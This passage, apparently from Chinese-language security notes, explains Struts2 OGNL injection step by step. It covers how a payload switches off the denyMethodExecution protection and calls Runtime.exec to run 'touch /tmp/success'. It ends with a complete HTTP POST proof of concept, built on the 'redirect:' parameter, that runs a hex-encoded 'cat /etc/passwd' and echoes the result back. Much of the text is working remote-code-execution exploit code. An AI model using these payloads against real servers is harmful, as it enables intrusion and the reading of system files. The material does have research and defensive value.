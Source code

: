    - `(%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)` 这部分的作用是在 OGNL 上下文(context) 中设置 `'xwork.MethodAccessor.denyMethodExecution'` 属性的值为 `#vccc`，其中 `#vccc` 是一个 OGNL 变量。
   - `(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22))` 这部分的作用是设置 `#vccc` 变量的值为 `new Boolean("false")`。实际上，这就相当于将 `'xwork.MethodAccessor.denyMethodExecution'` 的值设置为 `false`。

   这两步操作实际上是绕过了 Struts2 的安全限制。Struts2 通过 `'xwork.MethodAccessor.denyMethodExecution'` 这个属性来阻止 OGNL 表达式调用方法，其默认值为 `true`，即默认禁止调用方法。但是这段 payload 通过设置其值为 `false`，从而允许 OGNL 表达式调用方法，这样就可以通过 OGNL 表达式执行任意 Java 方法，导致远程代码执行漏洞。

   至于前面的 `(aaaa)` 则是一个无效的表达式，和前面提到的 `(vaaa)` 类似，它并没有实际的作用，只是增加了 payload 的混淆程度。

3. 获取到Runtime对象，并将这个对象赋值给`#rt`, 然后通过`#rt`来调用Runtime对象的exec方法，执行系统命令。

   ```java
   (asdf)(
       ('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')
       (%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime())
   )=1
       
   ####
   (asdf)(
       ('#rt.exec("touch@/tmp/success".split("@"))')
       (#rt=@java.lang.Runtime@getRuntime())
   )=1
   ```

   1. `('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')` 这部分的作用是执行命令 `touch /tmp/success`。这里 `%5cu0023rt` 是一个变量，它将在下一步被赋值。`exec` 是 `java.lang.Runtime` 类的一个方法，用于执行系统命令。参数是一个字符串数组，这里使用了 `split("@")` 方法将 `"touch@/tmp/success"` 字符串分割成数组。
   2. `(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime())` 这部分的作用是获取 Java 的运行时环境，并将其赋值给 `#rt` 变量。`@java.lang.Runtime@getRuntime()` 是 OGNL 表达式，它使用 `@` 符号调用了静态方法 `java.lang.Runtime.getRuntime()`，该方法返回当前 Java 应用的运行时环境。

   至于前面的 `(asdf)`，这是一个无效的表达式，它并没有实际的作用，只是增加了 payload 的混淆程度。

   `=1` 这部分也并没有实际的功能。在一个典型的 HTTP GET 请求中，参数是以键值对的形式存在的，如 `key=value`，而 `=1` 就符合这种格式。

   总的来说，这段 payload 的实际效果是：首先获取 Java 的运行时环境，然后利用这个运行时环境执行命令 `touch /tmp/success`，创建一个名为 `success` 的文件在 `/tmp` 目录下。

----

执行任意命令POC(有回显，将需要执行的命令进行urlencode编码) :

```http
POST /example/HelloWorld.action HTTP/1.1
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; MAXTHON 2.0)
Host: 192.168.1.215:8081
Content-Length: 626

redirect:${%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),%23str%3d%23s.hasNext()?%23s.next():%27%27,%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),%23resp.setCharacterEncoding(%27UTF-8%27),%23resp.getWriter().println(%23str),%23resp.getWriter().flush(),%23resp.getWriter().close()}

```
